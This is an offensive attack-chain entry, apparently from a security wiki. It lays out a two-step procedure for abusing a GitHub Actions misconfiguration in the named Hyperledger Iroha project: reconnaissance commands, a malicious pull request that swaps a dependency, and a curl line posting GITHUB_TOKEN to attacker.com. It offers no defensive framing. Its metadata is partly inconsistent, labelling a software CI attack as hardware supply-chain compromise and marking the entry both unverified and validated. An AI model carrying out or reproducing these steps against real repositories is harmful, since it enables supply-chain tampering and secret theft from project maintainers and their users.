

---
tags:
  - github-actions
  - supply-chain
  - secrets-exfiltration
  - access-control
  - ci-cd
type: attack_chain
tools:
  - '[[tools/pwnhub]]'
tactics:
  - '[[Initial Access]]'
  - '[[Credential Access]]'
verified: false
platforms:
  - Cloud
  - GitHub
submitted: true
complexity: medium
created_at: '2023-10-01T00:00:00Z'
procedures:
  - '[[procedures/Exploit-GitHub-Actions-Improper-Access-Control]]'
step_count: 2
techniques:
  - '[[Compromise Hardware Supply Chain]]'
  - '[[Credentials In Files]]'
updated_at: '2025-12-14T17:29:56.571Z'
description: >-
  Attack chain exploiting improper access control in GitHub Actions workflows,
  enabling unauthorized package modifications or secrets exfiltration in the
  Hyperledger Iroha project.
skill_level: intermediate
impact_level: high
id: ad680de4-adab-4f2a-9614-98a3b2f70e51
validated: true
mitre_tactics:
  - '[[Initial Access]]'
  - '[[Credential Access]]'
mitre_techniques:
  - '[[Compromise Hardware Supply Chain]]'
  - '[[Credentials In Files]]'
---
---

# Unauthorized Packages Modification or Secrets Exfiltration via GitHub Actions Misconfiguration

Multi-stage attack chain demonstrating exploitation of improper access control in GitHub Actions for supply chain compromise or credential theft in open-source projects like Hyperledger Iroha.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 2 |
| Execution Time | ~15 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- [[tools/pwnhub]]

### Target Environment

- Cloud platform: GitHub
- Services: GitHub Actions workflows in repositories like Hyperledger Iroha
- Tech stack: GitHub Actions for CI/CD
- No specific ports required; access via GitHub web interface or API

### Initial Access Requirements

- Public repository access (no credentials needed for read)
- Ability to fork and create pull requests (GitHub account)
- No prior authentication to the target project required due to misconfiguration

## Detailed Attack Procedures

### Step 1: Repository Reconnaissance

procedure: [[procedures/Exploit-GitHub-Actions-Improper-Access-Control]]

**Objective**: Identify vulnerable GitHub Actions workflows that lack proper permissions or branch protections, allowing unauthorized execution.

**Instructions**: Review the target repository's .github/workflows directory for YAML files defining actions triggered by pull requests or other events without GITHUB_TOKEN restrictions. Use GitHub's search or clone the repo to inspect:

```bash
git clone https://github.com/hyperledger/iroha.git
cd iroha
ls .github/workflows/
cat .github/workflows/*.yml | grep -i permissions
```

Analyze for workflows with `permissions: write-all` or no explicit limits, especially those runnable from forks.

**Expected Output**: List of workflow files with permissive settings.

**Success Indicators**:
- Workflows identified that allow write access or secret usage without authentication
- Confirmation of trigger events like `pull_request`

### Step 2: Trigger Workflow and Exploit

procedure: [[procedures/Exploit-GitHub-Actions-Improper-Access-Control]]

**Objective**: Fork the repository, create a malicious pull request to trigger the workflow, and either modify packages or exfiltrate secrets.

**Instructions**: Fork the target repo on GitHub, add a malicious commit (e.g., altered package.json or workflow step to exfil secrets), and open a PR. The workflow will run in the context of the target repo with elevated permissions.

For package modification example, alter a dependency in package.json and push:

```bash
git checkout -b malicious-pr
sed -i 's/"dependency": "1.0.0"/"dependency": "malicious-version"/g' package.json
git add package.json
git commit -m "Modify package"
git push origin malicious-pr
```

Then create PR on GitHub UI; monitor Actions tab for execution. For exfil, inject a step like `curl -X POST https://attacker.com/secret -d $GITHUB_TOKEN` in a forked workflow.

**Expected Output**: Workflow runs successfully, applying changes or sending data to attacker-controlled endpoint.

**Success Indicators**:
- PR triggers workflow without rejection
- Packages updated in repo or secrets leaked (verify via logs or attacker server)

## Attack Chain Summary

### Key Achievements

1. Bypassed authentication to execute code in trusted CI/CD pipeline
2. Enabled supply chain compromise by modifying published packages
3. Potential exfiltration of project secrets like deployment tokens

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Compromise Hardware Supply Chain]]
- [[Credentials In Files]]

### MITRE ATT&CK Tactics

- [[Initial Access]]
- [[Credential Access]]

---

*Last updated: 2023-10-01T00:00:00Z*
